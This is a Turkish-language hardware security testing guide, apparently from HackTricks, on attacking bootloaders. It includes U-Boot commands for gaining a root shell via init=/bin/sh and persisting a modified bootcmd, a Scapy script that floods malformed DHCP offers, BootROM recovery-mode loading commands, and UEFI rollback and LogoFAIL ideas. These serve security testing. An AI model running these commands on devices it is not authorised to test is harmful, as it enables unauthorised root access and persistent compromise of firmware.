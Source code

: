 # Bootloader Testi

{{#include ../../banners/hacktricks-training.md}}

Aşağıdaki adımlar, cihaz başlangıç yapılandırmalarını değiştirmek ve U-Boot ve UEFI-sınıfı loader'lar gibi bootloader'ları test etmek için önerilir. Erken kod yürütmeyi elde etmeye, imza/rollback korumalarını değerlendirmeye ve kurtarma veya ağ-boot yollarını kötüye kullanmaya odaklanın.

## U-Boot hızlı kazanımları ve env kötüye kullanımı

1. Interpreter shell'e erişim
- Boot sırasında, `bootcmd` çalışmadan önce bilinen bir kırılma tuşuna basın (çoğunlukla herhangi bir tuş, 0, space veya karta özgü bir "magic" dizisi) ve U-Boot istemine düşün.

2. Boot durumunu ve değişkenleri inceleyin
- Faydalı komutlar:
- `printenv` (env dökümü)
- `bdinfo` (kart bilgisi, bellek adresleri)
- `help bootm; help booti; help bootz` (desteklenen kernel boot yöntemleri)
- `help ext4load; help fatload; help tftpboot` (mevcut loader'lar)

3. Root shell almak için boot argümanlarını değiştirin
- Kernel'in normal init yerine shell'e drop etmesi için `init=/bin/sh` ekleyin:
```
# printenv
# setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
# saveenv
# boot    # or: run bootcmd
```

4. TFTP sunucunuzdan Netboot
- Ağı yapılandırın ve LAN'dan bir kernel/fit image çekin:
```
# setenv ipaddr 192.168.2.2      # device IP
# setenv serverip 192.168.2.1    # TFTP server IP
# saveenv; reset
# ping ${serverip}
# tftpboot ${loadaddr} zImage           # kernel
# tftpboot ${fdt_addr_r} devicetree.dtb # DTB
# setenv bootargs "${bootargs} init=/bin/sh"
# booti ${loadaddr} - ${fdt_addr_r}
```

5. Değişiklikleri env üzerinden kalıcı hale getirme
- Eğer env depolama write-protected değilse kontrolü kalıcı hale getirebilirsiniz:
```
# setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
# saveenv
```
- `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` gibi geri dönüş yollarını etkileyen değişkenleri kontrol edin. Yanlış yapılandırılmış değerler, tekrar tekrar shell'e girmenizi sağlayabilir.

6. Debug/tehlikeli özellikleri kontrol edin
- Şunlara bakın: `bootdelay` > 0, `autoboot` devre dışı, kısıtlamasız `usb start; fatload usb 0:1 ...`, serial üzerinden `loady`/`loads` yeteneği, `env import`'un güvensiz medyadan yapılabilmesi ve imza kontrolleri olmadan yüklenen kernel/ramdisk'ler.

7. U-Boot image/doğrulama testi
- Platform FIT imagelar ile secure/verified boot iddia ediyorsa unsigned veya değiştirilmiş imajları deneyin:
```
# tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
# tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
# tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
```
- `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` eksikliği veya legacy `verify=n` davranışı genellikle rastgele payload'ların boot edilmesine izin verir.

## Ağ-önyükleme yüzeyi (DHCP/PXE) ve sahte sunucular

8. PXE/DHCP parametre fuzzing
- U-Boot’un legacy BOOTP/DHCP işleme kodunda bellek güvenliği sorunları olmuştur. Örneğin, CVE‑2024‑42040, crafted DHCP cevapları aracılığıyla bellek ifşası yoluyla U-Boot bellekten baytların wire üzerinde leak edilmesine neden olmaktadır. bootfile-name (option 67), vendor option'lar, file/servername alanları gibi aşırı uzun/edge-case değerlere sahip DHCP/PXE kod yollarını test edin ve takılma/leak için gözlemleyin.
- Netboot sırasında boot parametrelerini zorlamak için minimal Scapy snippet:
```python
from scapy.all import *
offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
IP(src='192.168.2.1', dst='255.255.255.255')/
UDP(sport=67, dport=68)/
BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
DHCP(options=[('message-type','offer'),
('server_id','192.168.2.1'),
# Intentionally oversized and strange values
('bootfile_name','A'*300),
('vendor_class_id','B'*240),
'end']))
sendp(offer, iface='eth0', loop=1, inter=0.2)
```
- Ayrıca, PXE filename alanlarının OS tarafı provisioning script'leri zincirlendiğinde shell/loader mantığına sanitize edilmeden geçirilip geçirilmediğini doğrulayın.

9. Sahte DHCP sunucusu ile command injection testi
- Sahte bir DHCP/PXE servisi kurun ve filename veya option alanlarına karakterler enjekte ederek boot zincirinin sonraki aşamalarında komut yorumlayıcılarına ulaşmayı deneyin. Metasploit’in DHCP auxiliary, `dnsmasq` veya özel Scapy script'leri iyi çalışır. Önce laboratuvar ağını izole ettiğinizden emin olun.

## Normal boot'u geçersiz kılan SoC ROM recovery modları

Birçok SoC, flash imajları geçersiz olsa bile USB/UART üzerinden kod kabul eden bir BootROM "loader" modunu açığa çıkarır. Eğer secure-boot fuse'ları yakılmamışsa, bu zincirde çok erken rastgele kod yürütme sağlayabilir.

- NXP i.MX (Serial Download Mode)
- Tools: `uuu` (mfgtools3) veya `imx-usb-loader`.
- Example: `imx-usb-loader u-boot.imx` ile RAM'den özel bir U-Boot çalıştırın.
- Allwinner (FEL)
- Tool: `sunxi-fel`.
- Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` veya `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
- Tool: `rkdeveloptool`.
- Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` ile bir loader sahneleyip özel bir U-Boot yükleyin.

Cihazın secure-boot eFuses/OTP yakılıp yakılmadığını değerlendirin. Eğer değilse, BootROM download modları sıklıkla herhangi bir üst seviye doğrulamayı (U-Boot, kernel, rootfs) atlayarak ilk aşama payload'unuzu doğrudan SRAM/DRAM'den çalıştırır.

## UEFI/PC-sınıfı önyükleyiciler: hızlı kontroller

10. ESP müdahalesi ve rollback testi
- EFI System Partition (ESP)'yi bağlayın ve loader bileşenlerini kontrol edin: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo yolları.
- Eğer Secure Boot revocation'ları (dbx) güncel değilse, downgrade edilmiş veya bilinen zafiyetli signed boot bileşenleri ile boot etmeyi deneyin. Platform eski shim/bootmanager'ları hâlâ güveniyorsa, ESP'den kendi kernel'inizi veya `grub.cfg`'nizi yükleyerek persistence elde edebilirsiniz.

11. Boot logo parsing hataları (LogoFAIL sınıfı)
- Birçok OEM/IBV firmware, DXE'de boot logolarını işleyen görüntü-parsing hatalarına karşı savunmasızdı. Eğer bir saldırgan ESP üzerinde vendor-özgü bir yola (ör. `\EFI\<vendor>\logo\*.bmp`) crafted bir görüntü yerleştirebiliyorsa ve reboot edebiliyorsa, Secure Boot etkin olsa bile erken boot sırasında kod yürütme mümkün olabilir. Platformun kullanıcı tarafından sağlanan logoları kabul edip etmediğini ve bu yolların OS'den yazılabilir olup olmadığını test edin.

## Donanım uyarısı

Erken boot sırasında SPI/NAND flash ile etkileşimde bulunurken (ör. okumaları atlamak için pinleri topraklama) dikkatli olun ve her zaman flash datasheet'ini danışın. Zamanlaması yanlış kısa devreler cihazı veya programmer'ı bozabilir.

## Notlar ve ek ipuçları

- `env export -t ${loadaddr}` ve `env import -t ${loadaddr}` ile environment blob'larını RAM ve depolama arasında taşıyın; bazı platformlar auth olmadan çıkarılabilir medyadan env import edilmesine izin verir.
- extlinux.conf ile bootlanan Linux tabanlı sistemlerde persistence için boot partition'daki `APPEND` satırını değiştirmek (örneğin `init=/bin/sh` veya `rd.break` eklemek) genellikle yeterlidir, eğer imza kontrolleri uygulanmıyorsa.
- Eğer userland `fw_printenv/fw_setenv` sağlıyorsa, `/etc/fw_env.config`'un gerçek env depolaması ile eşleştiğini doğrulayın. Yanlış yapılandırılmış offset'ler yanlış MTD bölgesini okuma/yazma imkanı verebilir.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}
